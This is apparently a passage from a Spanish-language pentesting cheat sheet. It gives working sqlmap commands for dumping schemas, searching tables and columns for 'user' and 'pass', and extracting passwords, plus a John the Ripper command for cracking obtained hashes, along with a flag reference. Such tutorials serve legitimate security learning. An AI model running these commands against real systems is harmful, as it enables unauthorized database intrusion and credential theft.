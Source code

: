 5️⃣ **Crackear hashes obtenidos** con John the Ripper:
   ```bash
   john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
   ```
#### Otros escaneos con SQLmap

##### 📌 Ver toda la estructura de la Base de Datos  
```bash
sqlmap -r consulta.req --schema
```

##### 🔍 Buscar una palabra clave en Tablas  
```bash
sqlmap -r consulta.req --search -T user
```

##### 🔍 Buscar una palabra clave en Columnas  
```bash
sqlmap -r consulta.req --search -C pass
```

##### 🔑 Descifrar contraseñas  
```bash
sqlmap -r consulta.req --passwords --batch
```
#### 🛠️ Banderas útiles de SQLmap

##### 1. **`-u` o `--url`** 🌐
   - **Uso**: Especifica la URL del objetivo que deseas escanear.
   - **Ejemplo**: 
     ```
     sqlmap -u http://example.com/page?id=1
     ```

##### 2. **`--dbs`** 💾
   - **Uso**: Enumera todas las bases de datos disponibles en el servidor.
   - **Ejemplo**: 
     ```
     sqlmap -u http://example.com/page?id=1 --dbs
     ```

##### 3. **`--tables`** 📋
   - **Uso**: Muestra las tablas de una base de datos específica.
   - **Ejemplo**:
     ```
     sqlmap -u http://example.com/page?id=1 --dbs --tables -D target_db
     ```

##### 4. **`--columns`** 🗃️
   - **Uso**: Enumera las columnas de una tabla específica dentro de una base de datos.
   - **Ejemplo**: 
     ```
     sqlmap -u http://example.com/page?id=1 --columns -D target_db -T target_table
     ```
